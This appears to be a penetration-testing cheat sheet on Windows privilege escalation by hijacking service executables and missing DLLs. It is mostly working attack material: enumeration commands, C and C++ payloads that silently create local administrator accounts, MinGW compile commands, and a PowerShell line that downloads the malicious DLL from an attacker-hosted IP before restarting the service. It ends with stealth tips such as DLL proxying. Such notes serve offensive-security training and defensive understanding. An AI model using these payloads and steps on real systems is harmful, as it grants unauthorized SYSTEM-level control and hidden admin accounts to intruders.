

> [!abstract] Windows Privilege Escalation via Service Hijacking
> If a low-privileged user has write permissions over a service's executable (Binary Hijacking) or over a directory where a service looks for missing DLLs (DLL Hijacking), they can escalate privileges to `NT AUTHORITY\SYSTEM` when the service restarts.
> **MITRE ATT&CK Mapping:** [T1574.011 - Hijack Execution Flow: Services Registry Permissions Weakness](https://attack.mitre.org/techniques/T1574/011/) | [T1574.001 - DLL Search Order Hijacking](https://attack.mitre.org/techniques/T1574/001/)

## Attack Flow Diagram



---

## Step 1: Enumeration (Finding Vulnerable Services)

> [!info]+ Manual & Automated Enumeration
> The goal is to find services where the current user has `Write/Modify` permissions on the executable path or its directory.
> 
> **PowerShell / CMD Enumeration:**
> ```powershell
> # List all running services and their paths
> Get-CimInstance -ClassName Win32_Service | Select Name, State, PathName | Where-Object {$_.State -Like 'Running'}
> 
> # Check permissions of a service binary
> icacls "C:\Users\bin\xampp"
> Get-Acl "C:\Program Files (x86)\FileZilla Server" | fl
> 
> # Check Service Security Descriptor (who can start/stop/modify the service)
> sc sdshow alg
> sc sdshow snmptrap
> ```
> 
> **Automated Enumeration (PowerUp):**
> ```powershell
> powershell -ep bypass -c ". .\privesc\PowerUp.ps1; Invoke-PrivescAudit"
> ```

---

## Scenario 1: Binary Hijacking (Replacing the Executable)

> [!danger]+ Replacing the Legitimate Service Executable
> If the current user has `Full Control` (or `Write/M`) over the service's `.exe` file, we can replace it with a malicious executable. When the service restarts, it runs our payload as `SYSTEM`.
> 
> **1. Malicious C Code** (`malcod.c`)**:**
> *We use native* `system()` *calls to add a local administrator to avoid AV detection from MSFvenom payloads.*
> ```c
> #include <stdlib.h>
> int main() {
>     int i;
>     i = system("net user /add adolf KiSojkad332456");
>     i = system("net localgroup administrators adolf /add");
>     return 0;
> }
> ```
> 
> **2. Compile on Linux (using MinGW):**
> ```bash
> x86_64-w64-mingw32-gcc malcod.c -o adduser.exe
> ```
> 
> **3. Hijack the Service (On Target):**
> ```powershell
> # Backup the original (optional but recommended) and replace it
> move adduser.exe "C:\xampp\users\bin\mysq.exe"
> 
> # Restart the service to trigger execution
> Restart-Service <ServiceName>
> ```

---

## Scenario 2: DLL Hijacking (Missing DLL)

> [!warning+] Exploiting Missing DLLs
> If a service attempts to load a DLL that doesn't exist, and the current user has write access to the directory where the service looks for it, we can place our malicious DLL there.
> 
> **1. Finding the Missing DLL:**
> *Use Sysinternals Process Monitor (Procmon).*
> - Open Procmon and set a filter: `Process Name is <ServiceName.exe>`
> - Set another filter: `Result is NAME NOT FOUND`
> - Restart the service: `Restart-Service BetaService`
> - Look for `.dll` files that the service tries to load but fail with `NAME NOT FOUND` in a writable directory (e.g., `C:\Users\adolf\Document\`).
> 
> **2. Malicious DLL Code (`myDLL.cpp`):**
> *This code executes when the DLL is loaded into memory (`DLL_PROCESS_ATTACH`).*
> ```cpp
> #include <stdlib.h>
> #include <windows.h>
> 
> BOOL APIENTRY DllMain( 
>     HANDLE hModule,                // Handle to DLL module
>     DWORD ul_reason_for_call,      // Reason for calling function
>     LPVOID lpReserved              // Reserved
> ) {
>     switch (ul_reason_for_call) {
>         case DLL_PROCESS_ATTACH:   // A process is loading the DLL.
>             int i; 
>             i = system("net user dave2 password123! /add");
>             i = system("net localgroup administrators dave2 /add");
>             break;
>         case DLL_THREAD_ATTACH:   // A process is creating a new thread.
>             break;
>         case DLL_THREAD_DETACH:    // A thread exits normally.
>             break; 
>         case DLL_PROCESS_DETACH:   // A process unloads the DLL.
>             break;
>     }
>     return TRUE;
> }
> ```
> 
> **3. Compile on Linux (using MinGW):**
> ```bash
> x86_64-w64-mingw32-g++ myDLL.cpp --shared -o myDLL.dll
> ```
> 
> **4. Upload & Trigger (On Target):**
> ```powershell
> # Download the malicious DLL to the vulnerable directory
> iwr -uri http://172.20.10.1/myDLL.dll -OutFile "C:\Users\adolf\Document\myDLL.dll"
> 
> # Restart the service to trigger the DLL load
> Restart-Service BetaService
> ```

> [!bug] OPSEC & Stability Notes
> - **Service Crash:** If you replace the service binary, the service will likely crash immediately after executing your payload because it's not a valid service binary. Ensure your payload executes instantly (e.g., using `system()` or a reverse shell) before the Windows Service Control Manager (SCM) kills the process.
> - **DLL Proxying:** For long-term stealth, instead of a standalone malicious DLL, attackers use "DLL Proxying" (forwarding legitimate API calls to the original DLL while executing malicious code in the background).

